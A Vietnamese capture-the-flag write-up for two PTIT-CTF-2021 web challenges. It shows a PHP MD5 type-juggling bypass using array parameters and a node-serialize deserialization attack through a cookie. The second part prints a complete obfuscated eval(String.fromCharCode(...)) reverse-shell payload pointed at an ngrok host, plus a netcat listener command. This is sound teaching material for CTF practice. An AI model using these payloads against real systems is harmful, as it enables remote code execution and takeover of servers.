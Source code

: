 [PTIT-CTF-2021] WEB - Recon

Description: Can you recon where flag is hidding in this website ???? URL: http://34.84.29.1:2412/

Bạn có thể trinh sát flag ẩn trong trang web này không? 

Dạo vòng quanh web thì thấy có endpoint  `/demo` có thể truy cập, view source tại phần comment các bạn có thể thấy vài bình luận nhưng có bình luận khá đặc biệt

```
<!-- /demo/somesecretimages/image-00.png,  00 or 01 ???-->
```

Các hình ảnh đều theo format qrcode. Thử truy cập vào ảnh, ở image-00.png và image-01.png  parsed các đoạn text phần nào gợi ý rằng flag sẽ nằm ở đâu đấy sau khi decode bức ảnh nào đấy   :vv

![1.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902223732773.png)

![2.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902223749916.png)

Số 14 trong phần ` /demo`, truy cập vào cũng ra 1 ảnh dạng qrcode. Ok lại decode thôi, ở đây text sẽ là  `the real challenge: /ch4ll3ng3/` và đây là endpoit để ra được flag.

Dưới đây là code sau khi truy cập vào `/ch4ll3ng3/`:

``` php
<?php 
include('flag.php');
highlight_file(__FILE__); 
error_reporting(0); 
$apple = $_GET['apple']; 
$banana = $_GET['banana']; 
if(isset($_GET['apple']) && isset($_GET['banana'])){ 
    if($apple !== $banana){ 
        if(hash('md5', $salt . $apple) == hash('md5', $salt . $banana)){ 
            echo $flag; 
        } 
    }
} 
?>
```

Đoạn trên có ý nghĩa so sách giá trị của hai  args, nếu khác nhau thì sẽ hiển thị $flag

Bên dưới thì đây là payload của mình, truy cập và nhận cờ.

`http://34.84.29.1:2412/ch4ll3ng3/?apple[12]=123&banana[2]=122`

Flag:  PTIT{fake_flag}



======================================================================



[PTIT-CTF-2021] WEB - Rick Roll

Hôm nay khá bận nên mình cố gắng viết ngắn gọn nhất có thể, phần nào chưa rõ các bạn tìm hiểu thêm nhé. 

tl;dr

Thử thách tồn tại lỗ hổng deserialize trong nodejs, cho phép dữ liệu không đáng tin cậy được chuyển vào hàm unserialize() dẫn đến RCE bằng cách chuyển đổi serialized Javascript Object

với IEFE

**Bug**

Lỗ hổng trong thử thách là giá trị cookie trong yêu cầu HTTP.  Bây giờ có thể khai thác hàm unserialize() trong module node-serialize nếu dữ liệu không đáng tin cậy được truyền vào. Khai thác lỗ hổng để tạo một Reverse Shell.

![3.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902231321304.png)

--> base64 decode:

![4.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902231359395.png)



**Exploit**

Tạo một đường hầm ngrok TCP để nat ip với port ra ngoài

```
#./ngrok tcp 8083
```

output:

![5.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902233006869.png)

Ở đây mình dùng [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) để tạo reverse shell.

Set argument là host và port của ngrok như thế này để gen payload.

```
$python3 nodejsshell.py 4.tcp.ngrok.io:12497 8083
[+] LHOST = 4.tcp.ngrok.io:12497
[+] LPORT = 8083
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,52,46,116,99,112,46,110,103,114,111,107,46,105,111,58,49,50,52,57,55,34,59,10,80,79,82,84,61,34,56,48,56,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))

```

Bây giờ gen một payload serialized với javascript sau:

```javascript
var y = {
rce : function() {}
}
var serialize = require(‘node-serialize’);
console.log(“Serialized: \n” + serialize.serialize(y)); 
```

![6.png](https://www.yeahhub.com/wp-content/uploads/2018/08/nodejs-deserialization-attack-11.png)

Chèn payload trong dấu ngoặc nhọn **{** *eval (String.from ………* **}** như hình dưới đây: 

![image-20210902234442851](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902234442851.png)

Lưu tệp dưới dạng **mining.js** và chạy bằng lệnh node tạo ra payload serialized  được hiển thị bên dưới: 

![7.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902234750466.png)

Bây giờ quay lại BurpSuite và điều hướng đến tab decoder và paste mã  đầu ra ở trên vào text để và encode base64, các bạn hãy thêm [dấu ngoặc IIFE ](http://benalman.com/news/2010/11/immediately-invoked-function-expression/)() sau nội dung hàm như hình dưới đây: 

![8.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902235355933.png)

Trong tab Repeater, bạn cần thay thế giá trị cookie bằng giá trị được mã hóa base64 mà chúng ta đã tạo từ bước trên và sau đó nhấp  *Send*.

![9.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210902235840325.png)

Bên cạnh đó, các bạn có thể set lại dịch vụ netcat của bạn đang listen có trên cùng một port không, tức là 8083 (cùng một cổng cho payload reverse shell )

```
Lệnh: nc -nlvp 8083
```

Ngay sau khi nhấp vào Send, request sẽ được gửi đến máy chủ hiển thị 200 OK và kết nối thành công trên  port 8083 lúc này tiến hành reverse shell để lấy flag

![10.png](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210903000701727.png)

Flag ở trong file Dockerfile, cat ra sẽ thấy liền :vv



========================================